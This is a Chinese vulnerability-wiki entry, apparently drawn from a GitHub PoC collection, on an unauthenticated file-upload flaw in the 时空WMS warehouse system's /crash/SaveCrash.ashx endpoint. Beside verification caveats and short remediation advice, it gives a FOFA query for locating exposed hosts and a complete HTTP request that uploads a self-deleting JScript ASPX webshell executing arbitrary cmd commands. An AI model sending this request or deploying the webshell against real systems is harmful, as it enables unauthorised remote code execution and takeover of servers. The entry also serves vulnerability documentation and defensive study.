


# 时空WMS crash/SaveCrash上传ASPX

## 条目说明

- 对象与具体问题：时空WMS；crash/SaveCrash上传ASPX
- 版本、配置及部署条件：版本未知；JScript/IIS配置
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 简介同样混电子资料管理系统ImageUpload路径，应删错描述而非新增漏洞实体
- 异常报告上传写入可执行文件为独立入口，不能吞到392图片上传
- 自删shell和读流前Close需静态可靠性说明，执行与上传结果只截图未视检
- 重复Upgrade-Insecure-Requests头、无版本/补丁/在野来源

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

时空WMS-仓储精细化管理系统 SaveCrash.ashx 接口存在文件上传漏洞，电子资料管理系统 /Menu/ImageManger/ImageUpload.ashx 接口存在文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## 影响版本

时空WMS-仓储精细化管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="SKControlKLForJson.ashx"

POC/EXP：

```http
POST /crash/SaveCrash.ashx HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="rce.aspx"
Content-Type: text/plain

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```








## 漏洞修复

关闭互联网暴露面，文件上传接口处设置权限控制，添加黑白名单过滤

打补丁或升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
